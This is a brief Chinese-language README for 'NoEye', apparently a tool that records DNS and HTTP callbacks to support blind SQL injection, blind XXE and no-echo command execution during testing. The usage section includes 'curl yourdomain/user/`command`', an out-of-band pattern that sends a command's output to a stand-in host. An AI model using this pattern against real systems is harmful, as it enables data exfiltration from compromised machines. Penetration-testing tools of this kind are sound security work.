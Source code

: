 # NoEye
记录DNS记录和HTTP请求

>碰上盲注 盲xxe 无回显命令执行再也不用怕了

## 简单用法

>curl yourdomain/user/payload
>curl yourdomain/user/`command`


```
个人测试学习所用，目前只有HTTP记录，有兴趣可以改造一下
```




